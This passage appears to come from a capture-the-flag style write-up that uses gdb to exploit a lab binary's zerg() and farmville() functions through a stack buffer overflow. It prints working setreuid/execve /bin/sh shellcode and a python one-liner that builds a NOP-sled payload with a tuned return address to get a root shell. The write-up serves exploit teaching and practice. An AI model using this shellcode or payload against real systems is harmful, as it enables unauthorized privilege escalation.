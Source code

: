 

<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) b *<span class="hljs-number">0x08048775</span>
Breakpoint <span class="hljs-number">3</span> <span class="hljs-keyword">at</span> <span class="hljs-number">0x8048775</span>
(gdb) cont
Continuing.

Breakpoint <span class="hljs-number">3</span>, <span class="hljs-number">0x08048775</span> <span class="hljs-operator">in</span> zerg ()</code></pre>

<p>Now, let’s examine the data at <code>$ebp</code> and the return address after it.  <br>
<code>(gdb) x/4x $ebp <br>
0xffffda38:     0x58585858      0x08048799      0xffffdc00      0x0000000f <br>
</code> <br>
great the next 4 byte of <code>$ebp</code> is now the call address of <code>farmville()</code>. We can now just continue to the end of this program and check if it did enter the <code>farmville()</code> function.</p>



<pre class="prettyprint"><code class=" hljs vhdl">(gdb) cont
Continuing.
[ZERG] <span class="hljs-keyword">Buffer</span> received <span class="hljs-number">20</span> characters!
aaaaaaaa
[FARMVILLE] Sum <span class="hljs-keyword">of</span> incoming <span class="hljs-keyword">buffer</span> <span class="hljs-keyword">is</span> <span class="hljs-keyword">not</span> divisible by <span class="hljs-number">256</span> :-(</code></pre>

<p>Yayyyy! It entered the <code>farmville()</code>. Note, cause we didn’t feed anything into the <code>stdin</code>, the program asked us for input after <code>farmville()</code> is called. </p>
<p>Now it’s time to crack the <code>farmville()</code> function. </p>
<p>Some preparation first： <br>
We will need the shellcode that do <code>setreuid(geteuid, geteuid)</code>  and  <code>execve(/bin/sh)</code>  to give us root access in shell. The 39-byte shellcode is as follow: <br>
<code>\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd <br>
\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69 <br>
\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80</code> <br>
And buffer length: 228 <br>
<code>0x0804879c &lt;+3&gt;:     sub    $0xe4,%esp <br>
(gdb) print 0xe4 <br>
$5 = 228</code></p>

<p>There is only one criteria that <code>farmville()</code> required from our payload:</p>

<pre class="prettyprint"><code class="language-C hljs bash"><span class="hljs-keyword">if</span> ( (sum &amp; <span class="hljs-number">0</span>xff) != <span class="hljs-number">0</span>)
        {
                <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[FARMVILLE] Sum of incoming buffer is not divisible by 256 :-(\n"</span>);
                <span class="hljs-keyword">exit</span> (<span class="hljs-number">1</span>);
        }</code></pre>

<p>So our payload must again sum to a number divisible by 256. Recall the next 4 byte of <code>$ebp</code> is the return address and we want it to fall in somewhere of the <code>NOP</code> sleds, followed by our shellcode. At this moment, we will just craft some random payload and feed them to the <code>stdin</code> so we can examine the desired address and tune up sum of our payload.  <br>
<code>python -c 'print  <br>
("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80 <br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53 <br>
\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*92+"\x88\xd9\xff\xff")'&gt; farmville.sol</code> <br>
and then we can combine this with the exploit to pass <code>zerg()</code>phase, like this: <br>
<code>(gdb) run "$(&lt; zerg.sol)" &lt;farmville.sol</code> <br>
This is very similar to the <code>zerg()</code> phase of figuring out the correct number added up to something divisible by 256, so I won’t be verbose. </p>
